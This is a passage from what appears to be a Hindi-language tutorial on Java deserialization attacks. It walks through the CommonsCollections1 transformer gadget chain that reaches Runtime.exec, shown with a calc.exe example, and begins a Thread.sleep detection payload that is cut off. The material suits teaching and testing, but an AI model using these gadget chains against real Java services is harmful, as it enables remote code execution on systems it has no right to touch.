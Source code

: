 ### सारांश

अंत में, यह देखते हुए कि lazyMap चेन किए गए ट्रांसफार्मर्स को get विधि के अंदर कैसे प्रबंधित कर रहा है, यह ऐसा है जैसे हम निम्नलिखित कोड को निष्पादित कर रहे हैं:
```java
Object value = "someting";

value = new ConstantTransformer(Runtime.class).transform(value); //(1)

value = new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", null}
).transform(value); //(2)

value = new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
).transform(value); //(3)

value = new InvokerTransformer("exec",
new Class[]{String.class},
command
).transform(value); //(4)
```
_ध्यान दें कि `value` प्रत्येक ट्रांसफॉर्म का इनपुट है और पिछले ट्रांसफॉर्म का आउटपुट है, जो एक-लाइनर के निष्पादन की अनुमति देता है:_
```java
((Runtime) (Runtime.class.getMethod("getRuntime").invoke(null))).exec(new String[]{"calc.exe"});
```
ध्यान दें कि यहाँ **गैजेट्स** का वर्णन किया गया है जो **ComonsCollections1** पेलोड के लिए उपयोग किए जाते हैं। लेकिन यह छोड़ दिया गया है **कि यह सब कैसे शुरू होता है और यह कैसे निष्पादित होता है**। आप [यहाँ देख सकते हैं कि **ysoserial**](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java), इस पेलोड को निष्पादित करने के लिए, एक `AnnotationInvocationHandler` ऑब्जेक्ट का उपयोग करता है क्योंकि **जब यह ऑब्जेक्ट डीसिरियलाइज होता है**, यह **payload.get()** फ़ंक्शन को **निष्पादित** करेगा जो **पूरे पेलोड को निष्पादित करेगा**।

## Java Thread Sleep

यह पेलोड **यह पहचानने के लिए उपयोगी हो सकता है कि क्या वेब कमजोर है क्योंकि यह यदि कमजोर है तो एक स्लीप निष्पादित करेगा**।
```java
import org.apache.commons.*;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.*;
import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Map;
import java.util.HashMap;

public class CommonsCollections1Sleep {
public static void main(String... args) {
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Thread.class),
new InvokerTransformer("getMethod",
new Class[]{
String.class, Class[].class
},
new Object[]{
"sleep", new Class[]{Long.TYPE}
}),
new InvokerTransformer("invoke",
```